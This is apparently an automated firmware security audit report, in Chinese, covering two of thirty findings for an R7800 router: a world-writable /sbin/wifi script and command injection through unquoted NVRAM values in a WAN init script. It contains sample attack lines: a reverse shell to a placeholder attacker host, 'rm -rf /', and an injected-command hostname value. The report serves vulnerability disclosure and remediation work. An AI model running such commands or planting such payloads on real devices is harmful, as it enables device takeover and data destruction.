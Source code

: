 # R7800 (30 个发现)

---

### FilePermission-wifi

- **文件/目录路径：** `sbin/wifi`
- **位置：** `sbin/wifi (文件权限)`
- **风险评分：** 9.0
- **置信度：** 9.0
- **描述：** 文件 '/sbin/wifi' 具有全局读写执行权限（-rwxrwxrwx），允许任何用户（包括非root用户）修改脚本内容。攻击者可以插入恶意代码（如反向 shell 或命令执行），当脚本由特权用户（如 root）执行时（例如通过系统管理任务或网络配置操作），会导致权限提升。触发条件：攻击者修改脚本后，等待或触发脚本执行（如通过 'wifi' 命令）。利用方式：直接编辑脚本插入恶意 payload。这是一个完整且可验证的攻击链：非root用户修改文件 → 脚本由 root 执行 → 权限提升。
- **代码片段：**
  ```
  文件权限: -rwxrwxrwx
  脚本内容示例（可被修改）:
  #!/bin/sh
  # 恶意代码示例: 如果攻击者插入 'rm -rf /' 或 'nc -e /bin/sh attacker.com 4444'
  ...
  ```
- **关键词：** /sbin/wifi
- **备注：** 需要验证脚本是否在特权上下文中执行（如由 root 调用）。建议检查系统进程或服务如何调用此脚本。后续可分析调用此脚本的组件（如 init 脚本或 Web 接口）。攻击者是已连接到设备并拥有有效登录凭据的非root用户，符合核心要求。

---
### Command-Injection-net-wan

- **文件/目录路径：** `etc/init.d/net-wan`
- **位置：** `net-wan:setup_interface_dhcp (udhcpc command), net-wan:setup_interface_static_ip (ifconfig command)`
- **风险评分：** 9.0
- **置信度：** 9.0
- **描述：** 命令注入漏洞存在于多个函数中，其中配置值（如 `wan_hostname`、`wan_ipaddr`）从 NVRAM 通过 `$CONFIG get` 获取，并直接插入 shell 命令中而未引用。攻击者可以通过设置恶意配置值（如包含分号或命令分隔符的字符串）来注入任意命令。触发条件包括：当 WAN 接口启动时（例如系统启动、网络重启或手动执行脚本），脚本以 root 权限运行。利用方式：攻击者修改 NVRAM 配置（例如通过 Web 管理界面），设置 `wan_proto` 为 'dhcp' 或 'static'，并设置相应的恶意值（如 `wan_hostname` 为 'test; id > /tmp/exploit'），然后触发脚本执行。这将导致命令在 root 上下文中执行，实现权限提升。
- **代码片段：**
  ```
  在 setup_interface_dhcp 函数中：
  udhcpc -b -i $WAN_IF -h $u_hostname -r $($CONFIG get wan_dhcp_ipaddr) -N $($CONFIG get wan_dhcp_oldip) ${u_wan_domain:+-d $u_wan_domain}
  其中 $u_hostname 来自 $($CONFIG get wan_hostname) 或 $($CONFIG get Device_name)，未引用。
  在 setup_interface_static_ip 函数中：
  ifconfig $WAN_IF $($CONFIG get wan_ipaddr) netmask $($CONFIG get wan_netmask)
  其中 $($CONFIG get wan_ipaddr) 和 $($CONFIG get wan_netmask) 未引用。
  ```
- **关键词：** wan_hostname, wan_ipaddr, wan_netmask, wan_gateway, wan_proto, Device_name
- **备注：** 攻击链完整且可验证：攻击者控制 NVRAM 配置 -> 触发脚本执行 -> 命令注入以 root 权限执行。建议检查所有使用 `$CONFIG get` 的变量是否在命令中正确引用。后续可分析其他相关脚本（如 firewall.sh、ppp.sh）以寻找类似漏洞。

---